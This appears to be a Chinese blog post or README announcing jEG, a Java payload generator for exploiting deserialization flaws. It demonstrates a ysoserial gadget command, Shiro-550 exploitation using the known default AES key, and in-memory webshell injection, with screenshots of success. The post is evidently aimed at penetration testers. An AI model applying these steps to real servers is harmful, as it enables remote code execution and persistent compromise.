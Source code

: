 ```yaml
---
title: jEG v1.0.0 - 高度自定义的 Java 回显生成工具
author: pen4uin
date: 2023-09-28
---
```



# jEG v1.0.0 - 高度自定义的 Java 回显生成工具

## 0x01 简介

**jEG (Java Echo Generator)** 是一款支持高度自定义的 Java 回显载荷生成工具。

功能介绍
- 支持的中间件和框架
  - Tomcat/Resin/Jetty/WebLogic/WebSphere/Undertow
  - SpringMVC/Struts2
- 支持的执行模式 (Command/Code)
- 支持的输出格式 (BASE64/BCEL/BIGINTEGER/CLASS/JAR/JS)

执行模式
- 命令执行回显
- 代码执行回显（toString）

工作模式
- 作为 独立的 GUI 工具 
- 作为 woodpecker 的插件
- 作为 第三方库

下载地址

- https://github.com/pen4uin/java-echo-generator

## 0x02 工具演示

### 两种执行模式

**命令执行**

0、测试环境说明

- Tomcat v8.5.91
- JDK 8
- 原生反序列化漏洞
- CommonsBeanutils2


1、生成对应命令执行回显的 payload，继承 AbstractTranslet

![](./img/1708843903204.png)

2、使用 yso 进行序列化利用封装

```shell
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils2 -a "class_file:/Users/NotFound/Temp/SessionDataUtil.class" | base64
```

3、通过请求头 Cache-Control-Ymirvesoc 传入需要执行的命令，如图，命令成功执行并回显

![](./img/1708843933258.png)

**代码执行**

0、测试环境说明

- SpringBoot 2.2.6.RELEASE
- JDK 8
- Shiro 550
- CommonsBeanutils2_183

1、生成对应代码执行回显的 payload，继承 AbstractTranslet

![](./img/1708843968446.png)

2、使用 shiro 漏洞利用插件对 payload 进行加密处理

```
yso_gadget=CommonsBeanutils2_183
yso_cmd=class_file:/Users/NotFound/Temp/CSVUtil.class
shiro_key=kPH+bIxk5D2deZiIxcaaaA==
aes_model=CBC
```

3、准备需要执行的代码，这里以shiro常见的漏洞利用场景作为演示 - 注入内存马，使用 jMG 生成BASE64格式的内存马注入器

![](./img/1708843998491.png)

4、通过请求参数 Dsyoi 传入需要执行的字节码，如图，代码成功执行并回显

![](./img/1708844009402.png)

5、内存马注入成功

![](./img/1708844020638.png)

### 三种工作模式

**图形化**

1、下载 jEG-gui-1.0.0.jar 运行即可


![](./img/1708844053138.png)

**Woodpecker 插件**

1、下载 jEG-woodpecker-1.0.0.jar 到 woodpecker 插件目录下即可

![](./img/1708844074999.png)

**第三方库**

1、下载 jEG-core-1.0.0.jar 并安装到本地 maven 仓库

```shell
mvn install:install-file -Dfile=jEG-core-1.0.0.jar -DgroupId=jeg -DartifactId=jeg-core -Dversion=1.0.0 -Dpackaging=jar
```

2、引入自己的框架/工具的依赖中

```xml
<dependency>
    <groupId>jeg</groupId>
    <artifactId>jeg-core</artifactId>
    <version>1.0.0</version>
</dependency>
```

3、调用 API 生成需要的回显载荷即可


## 0x03 小结

从 jMG 到 jEG，Java 漏洞利用的造“轮子”之旅也算可以告一段落了。

最后祝大家节日快乐！



<br>
参考

- https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
- https://gist.github.com/fnmsd/8165cedd9fe735d7ef438b2e977af327
- https://github.com/feihong-cs/Java-Rce-Echo












